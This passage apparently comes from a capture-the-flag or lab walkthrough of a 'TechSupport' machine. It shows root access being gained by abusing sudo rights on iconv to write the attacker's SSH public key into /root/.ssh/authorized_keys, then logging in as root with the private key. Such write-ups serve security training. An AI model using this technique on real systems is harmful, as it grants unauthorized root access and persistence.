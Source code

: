 Now we copy our **public** key it on our target in the auth keys file :

```
scamsite@TechSupport:/dev/shm$ echo "ssh-rsa AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
" | sudo iconv -f 8859_1 -t 8859_1 -o "/root/.ssh/authorized_keys"
```

## Root SSH

Now we access with the **private** key :

```
ssh -i /home/hax/.ssh/id_ed25519 root@10.10.1.80
```

